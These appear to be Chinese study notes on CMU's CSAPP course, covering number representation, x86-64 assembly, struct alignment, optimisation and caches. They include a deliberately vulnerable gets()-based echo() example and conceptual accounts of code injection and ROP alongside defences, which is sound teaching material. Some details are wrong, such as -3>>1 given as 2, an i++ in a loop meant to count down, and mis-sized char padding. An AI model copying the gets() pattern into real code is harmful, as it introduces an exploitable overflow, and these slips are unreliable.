




# CSAPP

[TOC]

课程链接：[15-213: Introduction to Computer Systems (cmu.edu)](https://www.cs.cmu.edu/~213/)

15年链接：[15-213: Introduction to Computer Systems / Schedule Fall 2015 (cmu.edu)](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f15/www/schedule.html)

lab 链接：[CS:APP3e, Bryant and O'Hallaron (cmu.edu)](http://csapp.cs.cmu.edu/3e/labs.html)

## 一. 介绍

### 1. 有趣的现象

* 在计算机中是否所有数字都满足 $x^2\ge0$ ？

  对于浮点数来全部满足。对于整数中不一定：

  ```sh
  (gdb) print 40000*40000
  $1 = 1600000000
  (gdb) print 50000*50000
  $2 = -1794967296
  ```

  即计算机中对于 int 存储为 32 位，可能存在溢出的情况。

* 在计算机中是否所有数字满足假发结合律 $(x+y)+z=x+(y+z)$ ？

  对于整数来全部满足，然而对于浮点数就不一定了：

  ```sh
  (gdb) print (1e20+-1e20)+3.14
  $3 = 3.1400000000000001
  (gdb) print 1e20+(-1e20+3.14)
  $4 = 0
  ```

  都源于其使用有限位的组合来表示无限范围的数字，从而导致计算错误的情况。

对于 90% 的情况下都无需考虑这种情况，但是如果遇到系统安全或者火箭设计的时候必须要注意这些情况。

* 在 C/C++ 中对于数组随机访问不会对数组索引进行边界 检查：

  ```c
  typedef struct {
          int a[2];
          double d;
  } struct_t;
  
  double fun(int i) {
          volatile struct_t s;
          s.d = 3.14;
          s.a[i] = 1073741824;
          return s.d;
  }
  ```

  对于不同情况会有以下输出：

  ```sh
  0	->	3.140000
  1	->	3.140000
  2	->	3.140000
  3	->	2.000001
  4	->	3.140000
  5	->	3.140000
  6	->	*** stack smashing detected ***: terminated
  [1]    4500 abort (core dumped)  ./a.out
  ```

  当输入 6 的时候就会导致程序崩溃。

  

  由图所示，当 i 为 0 或者 1 的时候会修改属于其所在的内存区域，当为2，3的时候就是修改 d 所有的内存区域，当为 4，5，6 的时候可能修改了维持程序运行的状态，就会导致程序错误。

* 内存访问策略：

  ```c
  void copyij(int src[][], int dest[][]) {
          for(int i = 0; i < 2048; i++)
                  for(int j = 0; j < 2048; j++)
                          src[i][j] = dest[i][j];
  }
  
  
  void copyji(int src[][], int dest[][]) {
          for(int i = 0; i < 2048; i++)
                  for(int j = 0; j < 2048; j++)
                          src[j][i] = dest[j][i];
  }
  ```

  在这个程序中，前者运行速度要比后者快 20 倍左右。

  对于一个二维数组来说，其在计算机中保存的方式为一片连续空间，按列访问会让指向内存区域的指针不断的跳来跳去，不断计算下一个需要访问内存区域的地址；而按行访问只需要将指针移向下一片内存区域即可。

  

## 二. 数字表示

###  1. 符号数 signed VS unsigned

在 C/C++ 数字比较中，如果类型不同比较就会导致潜在的 bug 。

| 评估方式 |      A       | 关系 |         B         |
| :------: | :----------: | :--: | :---------------: |
| unsigned |      -1      |  >   |         0         |
| unsigned |  2147483647  |  <   |    -2147483648    |
| unsigned | (unsigned)-1 |  >   |        -2         |
|  signed  |  2147483647  |  >   | (int)21477483648U |

因此有以下结论：

* 有符号的正数永远小于转为无符号数字的有符号负数。

* 对于 $-2^{31}=-2147483648$ 来说，在 int 类型中， $-(-2147483648) = -2147483648$，这是需要注意的情况。

* 对于 unsigned 类型来说，不适合反向遍历数组：

    ```c
    unsigned int i = 5;
    for(;i>=0;i++);
    ```

* 因为当 $i=0; i=i-1$ 的时候，$i$ 会等于 $2^{32}-1=4294967295$

* 如果有符号数和无符号数一起运算，有符号数会转换为无符号数。
* `sizeof()` 返回的是无符号数。

### 2. 数字运算

* 溢出

  溢出分为正溢出和负溢出，正溢出是因为两个正数相加结果过大导致溢出得到负数，负溢出是因为两个负数相加结果过小导致溢出得到正数。

  对于有符号数来说有两种溢出，对于无符号数来说只有一种溢出。

* 位运算

  左移右移：左移相当于乘2，右移相当于除以2，但是又有一些细微的区别：

  ```c
  printf("%d,%d\n", 3 / 2, -3 / 2);
  // 1,-1
  printf("%d,%d\n", 3 >> 1, -3 >> 1);
  // 1,-2
  ```

  对于右移一位来说，相当于除以 2 再进行向下取整，比如 $3>>1$ 约为 1.5 但是取 1，-3>>1 约为 -1.5 向下取整取为2。

* 什么时候应该使用无符号数进行运算？

  取模运算，hash 运算等等

### 3. 浮点数

IEEE 754 表示法：


因此一个二进制浮点数可以表示为 $(-1)^sM\cdot2^E$，其中

* s 表示符号位

* exp 表示精度，不能位全 0 也不能为全 1，最终表示的位数为 $E=\text {exp-bias,\ bias}=2^{k-1}-1$。

  |  类别  |   exp    |      E       | bias |
  | :----: | :------: | :----------: | :--: |
  | 单精度 | [1,254]  |  [-126,127]  | 127  |
  | 双精度 | [1,2046] | [-1022,1023] | 1023 |

  

* frac 表示基数 M，其表示范围在 $[1.0,2)$ 之间，有一个隐含前置 1：

  当 frac 为 000...0 时表示 1.0 为最小值，当 frac 为 111...1 时候表示 $(2.0-\epsilon)_2$ 为最大值

举例：


由于 frac 部分始终都有一个隐含前导 1，因此表示数字 0 的时候十分不方便。

IEEE 754 推出非标准表示法，当 exp = 000...0 时候，frac 前导为 0：

* 当 frac 为 000...0 的时候就表示为 0 值，并且由于符号位 s 的存在会有 +0 和 -0 的区分
* 当 frac $\neq$ 000...0 的时候就表示十分接近与 0 的值。

还有几种特殊的值：

* 当 exp 全为 111...1 且 frac = 000...0 的时候就表示无穷大

  比如 $1.0/0.0=-1.0/-0.0=+\infin, 1.0/-0.0=-\infin$

* 当 exp  全为 111...1 且 frac ≠ 000...0 的时候就表示 NaN

  比如 $\infin+\infin$

```c
double a = 1.0/0.0;
double b = 1.0/-0.0;
printf("%lf, %lf, %lf\n", a, b, a+b);
// 输出
// inf, -inf, -nan
```

**舍入方式**：


最特殊的是向最近偶数(Nearest Even)舍入。

> 对于浮点数来说，并不具备加法结合律，比如加数之间相差较大 ，详见<a href='#1. 有趣的现象'>链接</a>.

因此对于程序员来说，如果使用浮点数用于表示变化极大的数据的时候，需要考虑浮点数可能存在的各种 bug 情况，有可能相同的数据在理论上结果完全相同但是实际中会得到不同答案的情况，因此需要格外注意来保证程序的鲁棒性。

 **类型转换**：

|       From       |         To         | Equal |
| :--------------: | :----------------: | :---: |
|       int        |    (int)(float)    | False |
|       int        |   (int)(double)    | True  |
|      float       |  (float)(double)   | True  |
|      double      |  (double)(float)   | False |
|      float       |     -(-float)      | True  |
|  double > float  | - float > - double | True  |
|   d * d >= 0.0   |                    | True  |
| (d + f) - d == f |                    | False |

### 4. 大端和小端存储

大端存储即先将数字的高位到低位依次存储，比如对于数字 0x12345678，在计算机的中大端的表示形式为 `12 34 56 78`；小端存储即先将数字的低位到高位依次存储，存储形式为 `78 56 34 12`。

C/C++判断大小端：

```c
int main() {
    int a = 0x12345678;
    char* b = (char *)&a;
    if (b[0] == 0x78) printf("small endian: %.2x.\n", b[0]);
    else if(b[0] == 0x12) printf("big endian: %.2x.\n", b[0]);
    else printf("error: %.2x.\n", b[0]);
    return 0;
}
```

Java 判断大小端（使用 unsafe 类）：

```java
public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException {
    Field theUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
    theUnsafe.setAccessible(true);
    Unsafe unsafe = (Unsafe) theUnsafe.get(null);
    System.out.println(unsafe);
    long a = unsafe.allocateMemory(8L);
    unsafe.putLong(a,0x12345678);
    byte b = unsafe.getByte(a);
    if (b == 0x12) System.out.println("Big Endian");
    else if (b == 0x78) System.out.println("Small Endian");
    else System.out.println("Error:" + b);
}
```

## 三. 程序机器级别表示

### 1. 汇编语言

将 C/C++ 转译成汇编语言：

```sh
gcc -Og -S sum.c
# -Og 是用于生成便于调试的汇编代码
```

或者通过反汇编得到汇编语言：

```sh
# 编译
gcc sum.c -o sum
# 反汇编
objdump -d sum > sum.d
```

也可以使用 gdb 进行反汇编：

```sh
gdb sum
# disassemble 后面是函数名
disassemble sumstore
```

生成汇编代码如下：

```assembly
    .file   "sum.c"
    .text
    .globl  plus
    .type   plus, @function
plus:
.LFB39:
    .cfi_startproc
    endbr64
    leaq    (%rdi,%rsi), %rax
    ret
    .cfi_endproc
.LFE39:
    .size   plus, .-plus
    .globl  sumstore
    .type   sumstore, @function
sumstore:
.LFB40:
    .cfi_startproc
    endbr64
    pushq   %rbx
    .cfi_def_cfa_offset 16
    .cfi_offset 3, -16
    movq    %rdx, %rbx
    call    plus
    movq    %rax, (%rbx)
    popq    %rbx
    .cfi_def_cfa_offset 8
    ret
    .cfi_endproc
.LFE40:
    .size   sumstore, .-sumstore
    .section    .rodata.str1.1,"aMS",@progbits,1
.LC0:
    .string "%ld + %ld --> %ldd\n"
    .text
    .globl  main
    .type   main, @function
```

其中以 `.` 开头的不是指令，是用于提供给调试器信息有关，方便其定位程序的各个部分。比如 `.globl` 关键字可以用来让一个符号对 Linker 可见，可以供其他链接对象进行使用，告诉编译器后续是一个全局可见的名字，可能是变量也可能是函数名。

在机器级别，基本数据结构基本不存在，是由编译器人工进行构建的。

### 2. x86 指令


大部分寄存器与原有命名时候的用途已无关，但是 rsp 和 rbp 这两个寄存器仍保留了其原有的用途。sp 表示 stack point 即为栈指针，bp 表示 base pointer 表示基指针。

> 对于一般函数来说，第一个参数存放在 %rdi，第二个参数存放到 %rsi 中，从函数中返回结果存放到 %rax 中。

* movq A,B 指令

  为了硬件设计人员的方便，不允许从一个内存位置复制到另一个内存位置，允许的操作目标如下图。

  

  `(%rax)` 表示 rax 寄存器中存储的为一个内存地址，使用 `()` 表示取出这个内存中的数据。

  `D(%rax)` 表示在这个内存地址上进行偏移，然后取出内容，相当于 `(%rax + D)`

  `D(%rax, %rbx, S)` 相当于 `(%rax + s * %rbx + d)`，其中 %rbx 不可以被替换为 rsp, S 只能取 1,2,4,8

* leaq src, dst

  src 一般是一个表达式，用于将表达式计算结果存放到 dst 中。

  对于 `x * 12` 这个操作：

  ```assembly
  leaq (%rdi, %rdi, 2), %rax	# t = x + x * 2
  salq $2, %rax	# t << 2
  ```

* 位标记（在控制流中会关注）

  1. CF，Carry Flag 表示进位标记，用于 unsigned 类型
  2. SF，Sign Flag，用于 signed 类型，表示 if res < 0
  3. ZF，Zero Flag，计算结果为 if res == 0
  4. OF，Overflow Flag，用于 signed 类型，判断补码是否溢出 (a > 0 && b > 0 & res < 0) || (a < 0 && b < 0 && t >= 0)

* cmpq b, a

  相当于计算 a-b 但是不产生计算结果，只改变位标记。

* testq b, a

  用于计算 a&b，一般都是与自己比较，比如 `testq %rax, %rax`

  ZF = 1 if a & b == 0

  SF = 1 if a & b < 0

* set* 指令

  

  `SETNE %rax` 将 ZF 标志取反存放到 rax 寄存器中。

* movzbl %al, %eax

  movzbl 全称 move with zero extension byte to long，将 al 中的值移到 eax 中，并且将剩余位置零。

* J* 跳转指令

  

  `jmp xxx` 表示直接跳转到 xxx 地址处。

  `je xxx` 表示如果 ZF = 1，则跳转到 xxx 处。

  其他类似。

### 3. Procedures 过程调用

相当于一个函数，解释的话比较类似于执行过程。

通常搭配使用的指令有 `push`，`pop` 以及`call`,  `ret`。

对于 push 操作，无法直接操作立即数，需要首先将立即数存储到寄存器中，然后 push 寄存器。

🔵控制执行流程：

* `call xxx` 相当于将下一条指令的地址 push 到 rsp 中，然后 jmp 到 xxx 地址。
* `ret` 相当于从 rsp 中 pop 出栈中的地址，并且 jmp 回这个地址。

🔵控制传递参数：

对于函数传递参数来说，前 6 个参数分别传递给 rdi, rsi, rdx, rcx, r8, r9 寄存器，之后的参数传递到栈中；返回值传递到 rax 中。对于浮点数会有专门的寄存器。

🔵管理局部参数

通常这些参数和环境变量会存储在栈的每一个对应的栈帧中。 

🔵寄存器保存规则

* `Caller Saved`：调用者在调用 `call` 命令之前将临时值保存到其栈帧中
* `Callee Saved`：被调用者在被调用之前将临时值保存到栈帧中，结束调用时候恢复调用者栈帧中的临时变量。


当进行函数调用时，会将调用者的信息（临时变量，可选参数，调用者和被调用者寄存器信息，返回地址）等入栈，等待被调用者函数执行完毕再恢复原状。

### 4. 数据结构表示

🔵数组表示

在 C/C++ 中：

```c
int i = 1;
int *p = &i;	// p = x
i ++;	// i = 2
p ++;	// p = x + 4;
```

对于指针进行 `++` 操作，相当于指针跳向下一个 int 有效地址。

学习一维数组，二维数组，结构体在计算机的表示形式。


<p>
    Cmp: Compiles(Y/N)
</p>
<p>
    Null: Possible numm pointer reference(Y/N)
</p>
<p>
    Size Value returned by sizeof()
</p>
<table>
<tr>
    <td>Ord</td>
    <td colspan=3>An</td>
    <td colspan=3>*An</td>
    <td colspan=3>**An</td>
</tr>
<tr>
    <td></td>
    <td>Cmp</td>
    <td>Null</td>
    <td>Size</td>
    <td>Cmp</td>
    <td>Null</td>
    <td>Size</td>
    <td>Cmp</td>
    <td>Null</td>
    <td>Size</td>
</tr>
<tr>
    <td>int A1[3]</td>
    <td>Y</td>
    <td>N</td>
    <td>12</td>
    <td>Y</td>
    <td>N</td>
    <td>4</td>
    <td>N</td>
    <td>-</td>
    <td>-</td>
</tr>
    <tr>
    <td>int *A2[3]</td>
    <td>Y</td>
    <td>N</td>
    <td>24</td>
    <td>Y</td>
    <td>N</td>
    <td>8</td>
    <td>Y</td>
    <td>Y</td>
    <td>4</td>
</tr>
    <tr>
    <td>int (*A3)[3]</td>
    <td>Y</td>
    <td>N</td>
    <td>8</td>
    <td>Y</td>
    <td>Y</td>
    <td>12</td>
    <td>Y</td>
    <td>Y</td>
    <td>4</td>
</tr>
    <tr>
    <td>int (*A4[3])</td>
    <td>Y</td>
    <td>N</td>
    <td>24</td>
    <td>Y</td>
    <td>N</td>
    <td>8</td>
    <td>Y</td>
    <td>Y</td>
    <td>4</td>
</tr>
</table>

其中 A4 的定义与 A2 的相同，`[]` 的优先级要比 `*` 的优先级要高。

而 A3 相当于一个指针，指向一个数组：


🔵结构体表示

```c
struct rec {
    int a[4];
    size_t i;
    struct rec *next;
};
```

对应在计算机中的简易表现形式为：


有以下特点：

1. 足够大来保存各个属性
2. 根据声明顺序在内存中的排列顺序
3. 根据地址和偏移量来定位到对应的属性

**内存对齐**：

> 内存对齐分为三种方式：数据对齐，数据结构填充以及紧缩


为什么需要数据对齐：

1. 现代计算机在数据自然对齐的时候读写内存效率最高。

如何对齐：

1. 主要数据类型为 K 字节，那么数据存储地址必须是 K 的整数倍。

其中主要数据类型的定义为该结构体中最大字节的类型。

如果对于一个结构体，其最终大小不是 K 的整数倍，编译器会在结构体末尾填充字节数来使其成为 K 的整数倍。


需要注意一点的是，最终填充的字节数**也算在**结构体之内。

举例：

```c
#include <stdio.h>

typedef struct {
    char c1;        // 2 + (2) padding
    int i1;         // 4
    char c2;        // 2 + (2) 末尾填充
} a;


typedef struct {
    int i1;         // 4
    char c1;        // 2
    char c2;        // 2
} b;


typedef struct {
    double f1;      // 8
    int a1;         // 4
    int a2;         // 4
    char cc1;       // 1 + (7)
} c;

int main() {
    a a1;
    b b1;
    c c1;
    printf("%ld, %ld, %ld\n", sizeof(a1), sizeof(b1), sizeof(c1));
    // 12, 8, 24
}
```

### 5. 进阶

🔵x86-64 Linux 内存布局



在 Linux 栈是放在最顶层的，栈的地址从高位到低位来增长的。

🔵缓冲区溢出

```c
typedef struct {
    int a[2];
    double d;
} struct_t;

double fun(int i) {
    volatile struct_t s;
    s.d = 3.14;
    s.a[i] = 1073741824;
    return s.d;
}
```

在 C / C++ 中并没有对数组索引进行边界检查，因此很容易出现缓冲区溢出的情况，导致出现重大系统安全漏洞。

大部分缓冲区溢出是试图存储从信息中读取的字符串，但是不知道字符串有多大。很多库函数也不会检查边界，比如 C 中的 `gets()` 函数。

```c
char *gets(char *dest) {
    int c = getchar();
    char *p = dest;
    while(c != EOF && c != '\n') {
        *p++ = c;
        c = getchar();
    }
    *p = '\0';
    return dest;
}
```

缓冲区溢出的关键就是编写的代码无法保证数据的边界是 100% 有限的，从而导致会恶意程序会无限读取信息。

案例：

```c
void echo() {
    char buf[4];
    gets(buf);
    puts(buf);
}
```

对应的汇编代码：

```
4005d6:       48 83 ec 18				sub    $0x18,%rsp
// ===== Canary start ====
4005da:       64 48 8b 04 25 28 00		mov    %fs:0x28,%rax
4005e1:       00 00
4005e3:       48 89 44 24 08			mov    %rax,0x8(%rsp)
// ===== Canary Over ====
4005e8:       31 c0						xor    %eax,%eax
4005ea:       48 89 e7					mov    %rsp,%rdi
4005ed:       e8 ce fe ff ff			callq  4004c0 <gets@plt>
4005f2:       48 89 e7					mov    %rsp,%rdi
4005f5:       e8 96 fe ff ff			callq  400490 <puts@plt>
// ===== Canary start ====
4005fa:       48 8b 44 24 08			mov    0x8(%rsp),%rax
4005ff:       64 48 33 04 25 28 00		xor    %fs:0x28,%rax
// ===== Canary Over ====
400606:       00 00
400608:       74 05						je     40060f <echo+0x39>
// ===== Canary Function
40060a:       e8 91 fe ff ff			callq  4004a0 <__stack_chk_fail@plt>
40060f:       48 83 c4 18				add    $0x18,%rsp
400613:       c3						retq
```

运行结果：

```
$ ./b
12345678
12345678
$ ./b
123456789
123456789
*** stack smashing detected ***: ./b terminated
Aborted
```

由汇编代码可以知道，虽然代码中只给分配了 4 字节的空间，但是在汇编代码中分配了 0x18 字节的空间，因此稍微超出一点范围程序也可以正常运行。在没有系统保护的情况下可以写满 0x18 个字节，这里是因为stack canary 保护的原因只写了 10 字节导致提前异常。

🔵代码注入攻击


在一般情况下，分配的 `char` 数组保存在栈帧中，并且 `gets` 会分配 20 个额外的字节；再紧接着就是上一个函数的返回地址。代码注入的思想就是修改上个函数的返回地址，跳到恶意代码的地址。


怎么防护？

* 使用安全函数比如 fgets() 替代 gets() 函数。

* 系统级别的保护：当程序运行时随机分配栈/堆的地址

* 从硬件层面标记栈上的数据不可被执行

* stack canary，在 canary 部分写入特定字符，等执行完毕后检查 canary 字段字符是否一致，如果不一致就表示缓冲区溢出，从而提前报错。

  

🔵ROP 攻击

> ROP: Return-Oriented Programming

栈随机化、不可执行栈和 canaries 保护措施会导致缓冲区溢出攻击失败，栈随机化会很难预测缓冲区的位置，不可用执行栈很难取插入二进制代码。

使用 ROP 攻击可以解决前两个问题。


可选策略：

* 使用现存代码，比如库代码(stdlib)
* 虽然使用栈堆随机化，但是全局变量和代码的地址并未改变。可以将一系列代码拼接成字符串，组合在一起

方法：

* 找到一些 gadgets (可以理解为小片段的代码)，其中最后一个字节为 0xc3 (ret)

  

  对于这段代码可以使用后两句代码来获取寄存器 rdi 和 rdx 中和的值。

  也可以使用部分代码：

  

## 四. 程序优化

### 1. 常见优化技巧

* Code Motion 代码移动

  ```c
  void func(int m, int n) {
      for(int j = 0; j < n; j++) {
          a[m * n + j] = b[j];
      }
  }
  
  void func(int m, int n) {
      // 防止重复计算浪费资源
      int k = m * n;
      for(int j = 0; j < n; j++) {
          a[l + j] = b[j];
      }
  }
  ```

* Share Common Subexpressions 共享常用子表达式

  ```c
  up		=	arr[(x-1)*m + j];
  down	=	arr[(x+1)*m + j];
  
  // 优化
  
  int k = x * m + j;
  up 	= arr[k - m];
  down = arr[k + m]
  ```

* Procedure Call Optimization (strlen problem) 函数调用优化

  这里出现的问题就是每次循环都需要调用 `strlen` 函数，在函数返回值始终不变的情况下，重复调用时十分耗费资源。

  ```c
  void lower(char *s) {
      size_t i;
      for (i = 0; i < strlen(s); i++)
          if (s[i] >= 'A' && s[i] <= 'Z')
              s[i] -= ('A' - 'a');
  }
  
  // 优化 for 循环调用多次 strlen
  
  void lower(char *s) {
      size_t i;
      size_t len = strlen(s);
      for (i = 0; i < len; i++)
          if (s[i] >= 'A' && s[i] <= 'Z')
              s[i] -= ('A' - 'a');
  }
  ```

  

* Memory aliasing

  aliasing 就是当程序的不同部分引用内存中相同位置时候，可以使用一个内存数据结构覆盖另一个数据结构

  说人话就是对一片内存区域既进行查询又进行修改。

  ```c
  void sum_rows1(double *a, double *b, long n) {
      for(int i = 0; i < n; i ++) {
          b[i] = 0;
          int ni = n * i;
          for(int j = 0; i < n; j ++) {
              b[i] += a[ni + j];
          }
      }
  }
  ```

  

  图中 B 指向 A + 3 的位置，之后 B 的值时根据 A 中每一行之后决定的；B 中数值进行修改相当于也对 A 进行了修改，从而影响了 B 中的结果。

* 硬件层面的改进：

  比如 Loop Unrolling，Branch Prediction Through Loop
  
  

## 五. 内存结构

### 1. Basic

硬盘数据访问分为以下阶段：


当在上个磁道数据传输完毕后，探针移动到下一个信息所存储的磁道位置，等待区域旋转到探针位置，最终读取数据。其中数据传输的相比于其他阶段可以忽略不记。


🔵Locality

Principle of Locality (局部性原理): Programs tend to use data and instructions with addresses near or equal to those they used recently.

局部性分为两种：

* 时间局部性：最近引用项很可能在不仅的将来继续引用。 
* 空间局部性：最近被访问过单元地址附近很有可能也会被访问。

往往越好使用局部性原理对应的程序性能也会越好。比如在遍历二维数组的时候，先从行遍历还是先从列开始遍历，如果先从列开始进行遍历，对于空间局部性来说就很不友好，因此两者遍历方式最终导致的性能差异也会很大。


缓存概念的出现就是基于局部性原理。如果寄存器想要获取内存中的数据信息，首先寄存器从缓存中找对应的数据，如果找到(hit)则可以直接返回给寄存器，如果未命中(Miss)则需要将主存中的数据传输到缓存中，再传给寄存器。

缓存未命中的类型：

* Cold(Compulsory) miss: 冷 miss 的原因是因为缓存为空，无法命中是必然的
* Conflict miss：冲突未命中，这和缓存的实现方式有关（下一节）
* Capacity miss: 这归结于缓存的大小是固定的，而需要访问的缓存数据范围较大。


### 2. Cache 高速缓存


这个是缓存的通用组织结构，通常由 S，E，B 来进行表示：

其中 S 表示有 $2^s$ 个 set，E 表示每个 set 中含有 $2^e$ 个 line，B 表示 Block，每个 line 中有 $2^b$ 个字节的数据。

总共占用的字节数为：$C=S\times E\times B$

在每个 block 中：

* v(valid) 表示这个块是否有实际意义
* tag 用于帮助搜索 block
* 数据部分

🔵缓存读

CPU 发送地址到缓存，要求缓存返回地址处的数据，这个地址由多个部分组成：


* t 表示 tag 用于帮助搜索
* s 表示 set 的索引位置
* b 确定 block 中该目标数据开始的偏移量

首先通过 set index 来确定数据对应缓存中的 set，然后会检查t位 tag 确定 line 中的 tag 是否与之匹配，并且检查 line 中的有效位是否开启。如果以上条件都满足，则表示缓存命中。

参考：[主存到Cache直接映射、全相联映射和组相联映射](https://blog.csdn.net/dongyanxia1000/article/details/53392315)

* 直接映射：

  

  直接映射很有可能会导致某处 Cache 淘汰换出频繁，而某处 Cache 空着也不会使用。Cache 的存储空间得不到充分利用。

  特定就是简单，成本低，地址变换快速且不涉及替换算法的问题。

  由于缓存之间的低关联性，因此需要增加 line 的数量。

* 多路组相联映射

  

  对于 2 路组相联映射，找到对应的 set 之后，对比每个 line 的 tag，如果有效位和 tag 都一致的话就表示命中。

  

* 全相联映射

  全相联映射相当于极端情况下的组相联映射，cache 中只有一个 set，set 中包含缓存中所有的 block。但是存在一个问题就是如果缓存过大的话，寻找 tag 会存在 O(n) 时间复杂度的问题，而且硬件设计也比较复杂。因此全相联高速缓存只适合做小的高速缓存，比如虚拟内存中的块表(TLB)，用于缓存页表项。

🔵缓存写

对于很多层级结构比如 L1、L2、L3、主存以及硬盘等数据，如果想要将数据写回这些硬件该如何操作。

Write-hit 有两种策略：

1. write-through：直写策略，直接将数据写回内存，但是访问消耗十分昂贵。
2. write-back：回写策略，不会直接写回内存，直到对应缓存区域被替换就写回。需要添加额外的位标记是否被修改过。

Write-miss 也有两种策略：（即想要写入的数据不在缓存中）

1. write-allocate: 即将内存中的数据写入缓存，在缓存中进行更新，如果之后有更多的写操作，会明显有性能提示。
2. no-write-allocate: 直接写入内存

> Java中的 volatile 关键字就是解决缓存和内存中不一致的情况。

现代计算机缓存结构：


d-cache 表示数据缓存，i-cache 表示指令缓存。

🔵缓存抖动

```c
float dotprod(float x[8], float y[8]) {
    float sum = 0;
    for(int i = 0; i < 8; i++)
        sum += x[i] * y[i];
    return sum;
}
```

对于这种情况，此函数中对于 x, y 数组的空间局部性都很优秀。但是如果假设缓存只有 32 字节大小，Block 大小只有 16 字节大小，在访问 x[0] 的时候会将 x[0] ~ x[3] 的数据全部映射到缓存的前 16 字节数据区域中，同样在访问 y[0] 的时候会将 y[0] ~  y[3] 映射到缓存的前 16 字节数据区域中，这就导致缓存中数组 x 的数据被覆盖，进入下一个循环的时候缓存中数组 y 的数据又被覆盖，这就导致时间局部性较差，从而导致程序运行性能变差。

> 即可以了解到，在空间局部性较好的情况下，仍有可能会导致缓存 miss

解决方法：

1. 将数组长度拉长
2. 使用临时变量存储数组中的数据 (lab 操作)

🔵缓存性能评估指标

* Miss rate
* Hit time
* Miss Penalty，即缓存命中失败所需要额外耗费的时间

缓存命中要比缓存未命中的速度要块 100 倍。

99% 的命中率要比 97% 性能高两倍。

🔵高速缓存对程序性能的影响


对于步长为 1 的引用模式，Core i7 会自动识别步长为 1 的顺序读取方式，采用硬件预取(prefetching)的机制，可以明显看到步长为 1 的顺序访问方式最优。

对于时间局部性来说，在这个 i7 芯片上大小为 32KB （大概长度为 8000 的 int 数组）以下的数据会存放在 L1 缓存区，小于 256KB 的数据会存放在 L2 缓存区，更大的会存放在 L3 或者 主存中进行存储。如果业务中可以拆分为多个小型区域存放在 L1 缓冲区，则可以大幅度利用时间局部性来提高程序执行速度。

🔵空间局部性优化典型案例

根据内存山（csapp封面）的内容，最典型的优化方案就是矩阵乘法：

如果采用 ijk 的方式进行相乘：


对于矩阵 B 来说就很不符合空间局部性的要求，缓存命中率几乎为 0.

而对于 kij 的方式来说：


对空间局部性的优化。

🔵时间局部性优化

> 由于 Core i7 有完善的预取(prefetching)硬件，分块对于矩阵乘法并不会有太多的提升。可以在没有预取的设备上获得极大的性能收益。

通常使用 blocking(分块) 的技术来优化程序的时间局部性。

额外补充材料：[waside-blocking](http://csapp.cs.cmu.edu/public/waside/waside-blocking.pdf)
$$
C = AB
$$


